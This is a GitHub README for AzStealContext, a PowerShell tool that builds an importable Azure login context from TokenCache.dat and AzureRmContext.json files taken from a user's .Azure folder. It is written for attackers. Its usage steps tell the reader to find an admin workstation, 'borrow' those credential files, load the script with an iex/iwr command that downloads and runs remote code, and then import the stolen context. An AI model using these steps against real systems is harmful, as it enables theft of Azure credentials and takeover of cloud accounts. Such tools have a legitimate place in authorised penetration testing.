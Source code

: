 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

When a user authenticates using the Az PowerShell module a `.Azure` folder is created in the users home folder. This folder contains multipele files including the `AzureRmContext.json` and `TokenCache.dat` files. These files contain all the information a attacker needs to create a 'context file' which is equivalent of the output from the [`Save-AzContext`](https://docs.microsoft.com/en-us/powershell/module/az.accounts/save-azcontext?view=azps-4.6.1) command. This PowerShell function automates the process a attacker would need to take to create a 'context' file.

The AzureRmContext file can have multiple 'contexts'. This happens when the `Connect-AzAccount` is run multiple times by the same user with different Azure credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex((iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepare a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepare and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - To prepare a AzContext file and overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile name: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
